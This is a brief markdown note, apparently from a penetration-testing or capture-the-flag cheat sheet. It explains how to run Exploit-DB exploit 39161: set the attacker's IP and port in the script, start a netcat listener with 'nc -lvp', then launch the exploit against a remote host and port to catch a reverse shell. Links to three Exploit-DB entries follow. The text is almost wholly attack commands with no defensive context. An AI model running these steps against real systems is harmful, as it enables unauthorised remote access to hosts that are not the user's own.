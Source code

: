 ### prepare file 39161.py and insert
```
ip_addr = "<lhost>" #local IP address
local_port = "<lport>" # Local Port number
```

### start listener
```
nc -lvp <lport>
```

### exploit (it might be necessary to execute the exploit multiple times)
```
python3 39161.py <rhost> <rport>
```

### References
https://www.exploit-db.com/exploits/34668  
https://www.exploit-db.com/exploits/39161  
https://www.exploit-db.com/exploits/49125  


